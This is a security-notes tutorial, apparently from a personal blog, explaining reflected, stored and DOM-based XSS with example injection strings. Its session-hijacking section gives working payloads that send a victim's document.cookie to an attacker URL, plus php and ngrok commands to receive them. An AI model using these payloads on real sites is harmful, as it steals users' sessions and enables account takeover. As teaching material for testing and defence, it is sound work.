 ```yaml
---
title: Notes | Common Web Attacks
author: BatBato
date: 2022-09-11
categories: [Notes, Common Web Attacks]
tags: [Web, Common Web Attacks, XSS, XXE, IDOR, SQLi]
permalink: /Notes/Web/Common_Web_Attacks
---
```


# Common Web Attacks

The World Wide Web allows us to access a lot of information over the internet, whether it is a movie, your family pictures or your mail. This is also a very big battlefield between every kind of hackers. Here, we are going to talk about common web vulnerabilities such as Cross Site Scripting (```XSS```), XML External Entity (```XXE```), Insecure Direct Object Reference (```IDOR```) and SQL Injection (```SQLi```).

## XSS

XSS vulnerability result in the possibility for a user to execute Java Script code in the web page. This can change the content of the page or steal connection cookies, for example. You can find a basic exmplanation of XSS on [this video](https://www.youtube.com/watch?v=L5l9lSnNMxg). There are three different type of XSS :

- [Reflected XSS](/Notes/Web/Common_Web_Attacks#reflected-xss), where the malicious script comes from the current HTTP request.
- [Stored XSS](/Notes/Web/Common_Web_Attacks#stored-xss), where the malicious script comes from the website's database.
- [DOM-based XSS](/Notes/Web/Common_Web_Attacks#dom-based-xss), where the vulnerability exists in client-side code rather than server-side code.


### Reflected XSS

The most basic type of cross-site scripting is ```Reflected XSS```. It occurs when an application receives data from an HTTP request and unsafely incorporates that data into the immediate response.

A very simple example will be the following. Imagine a webpage that ask for the user name and execute the following ```GET``` request :
```console
https://insecure-website.com/search?name=bob
```

This request will then print ```Your name is : NAME``` where ```NAME``` will be replaced by the name given. If the website is vulnerable to ```Reflected XSS```, we could put a script as a name like :
```console
https://insecure-website.com/search?name=<script>JS_CODE</script>
```
You can replace ```JS_CODE``` by anything you want. A basic test could be :
```js
<script>alert(1)</script>
```

The ```alert``` JS function will create a pop-up that will display the text between the brackets. But as stated in [this video](https://www.youtube.com/watch?v=KHwVjzWei1c) of [LiveOverflow](https://www.youtube.com/c/LiveOverflow), the ```alert(1)``` isn't a good practice and can lead to false positive. A better way to test XSS could be the use of ```alert(document.domain)``` or ```alert(windows.origin)``` you could even use the ```console.log``` JS function.


### Stored XSS

```Second-order``` or ```persistent XSS```, often known as ```Stored XSS```, occurs when an application obtains data from an unreliable source and includes that data inadvertently in subsequent HTTP responses.

As its name suggest, the ```Stored XSS``` is ```Stored``` in the server. It often appears when someone leaves a comment and that other people can read it. The attack is basically the same for every type of XSS so you can use the previous techniques to check if the website is vulnerable. 

### DOM-based XSS

When client-side JavaScript in an application handles data from an untrusted source in an unsafe manner, typically by publishing the data back to the DOM, this is referred to as ```DOM-based XSS```, also known as ```DOM XSS```.

```DOM-based XSS``` are a bit harder to find. First we want to check for JS code in the page that we can interact with, like a ```document.write``` that write our input, for example. ```DOM.innerHTML``` and ```DOM.outerHTML``` are other JS function that write DOM objects (```add()```, ```after()```, ```append()``` are some JQuery functions that write DOM objects). Once we understand how the script work we may want to close some HTML tags so that we can input our JS malicious code. This is an example that show how to close a simple HTML tag that includes our input in its field (like an image for example) :

```console
https://insecure-website.com/search?name="><script>JS_CODE</script>
```

> You can find more detailed information about XSS on the [PortSwigger website](https://portswigger.net/web-security/cross-site-scripting).
{: .prompt-info }

> You can use the ```document.cookie``` JS function to retrieve the cookie of a user.
{: .prompt-tip }

### Session Hijaking

XSS can be used to recover sensitive information like connection cookies. We need to setup our environment so that the payload can send us back the information. First, we will start a ```php server``` on our machine and then use ```ngrok``` so that our web server is available anywhere online.

```sh
php -S localhost:1234
```

and

```sh
ngrok http 1234
```

> In real case scenario or in realistic CTF you may want to use a more standard port like ```443``` which is the port for ```HTTPS```
{: .prompt-tip }

> You may need to create a Ngrok account for this to work. Visit the created page and it should ask you to create an account.
{: .prompt-danger }

Now that our environment is ready we can send our payload like :

```sh
<script>window.open("[URL]?"+document.cookie)</script>
``` 

or

```sh
<script>document.location="[URL]?"+document.cookie;</script>
``` 

or

```sh
<script>document.write('<img src="[URL]?'+document.cookie+'"/>');</script>
``` 

Don't forget to replace ```[URL]``` by the url ngrok gives you. This will send the cookie of the person that visit the page where our payload is executed.
You can find many other payload on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md).

### Automation

There are many tools out here that can help you detect XSS vulnerabilities like [Nessus](https://www.tenable.com/products/nessus), [Burp Pro](https://portswigger.net/burp/pro), [ZAP](https://owasp.org/www-project-zap/). There are also some opensource tools that you can find on github like [XSStrike](https://github.com/s0md3v/XSStrike), [BruteXSS](https://github.com/rajeshmajumdar/BruteXSS) or [XSSer](https://github.com/epsylon/xsser).
Here is a list of different payload you may want to try when looking for XSS vulnerabilities [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md).

